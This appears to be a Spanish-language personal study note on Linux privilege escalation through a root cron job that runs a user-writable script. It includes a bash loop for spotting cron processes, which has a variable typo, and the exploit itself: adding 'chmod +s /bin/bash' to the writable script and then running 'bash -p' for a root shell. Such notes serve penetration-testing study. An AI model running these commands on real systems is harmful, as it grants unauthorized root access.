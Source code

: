 Una tarea [[Archivos#Cron|Cron]] se encargar de ejecutar ciertos algoritmos cada cierto tiempo.

Primero vamos agregar una nueva tarea cron y indicar el servicio, las tareas se ubican en ` /etc/cron.d ` y deben de contener una [[Archivos#Estructura de tiempos|Estrucutra]].

``` bash
#Estructura por defecto(1 min)
* * * * * root /home/s4tisfacti0n/file.sh
```

Ah este punto la tarea cron esta lista, creamos el archivo y le damos permisos *x* y *w*.

**Explotación**
Como podemos identificar una tarea cron? con `ps -eo command` podemos visualizar los comandos que se están ejecutando en tiempo real.
Para esto realizaremos un pequeño script.

``` bash
 1 #!/bin/bash
 2
 3 old_process=$(ps -eo command)
 4
 5
 6 while true; do
 7     new_process=$(ps -eo command)
 8     diff <(echo "$old_process") <(echo "$new_process") | grep  "[\>\<]" | grep -v "kworker"
 9     ol_process=$new_process
10 done
```

Una vez que ejecutemos nuestro script podemos visualizar la tarea cron que hemos creado, ahora a explotar esta *recordar que el file.sh ejecutado tiene permisos e escritura así que lo podemos modificar*.

Como la tarea cron se esta ejecutando como root lo que vamos hacer es asignar permisos *suid* a la `/bin/bash`.
``` bash
 1 #!/bin/bash
 2
 3 chmod +s /bin/bash
```

Ahora con un usuario no privilegiado abriremos una bash.

	bash -p
-p *Para forzar los permisos que tiene*


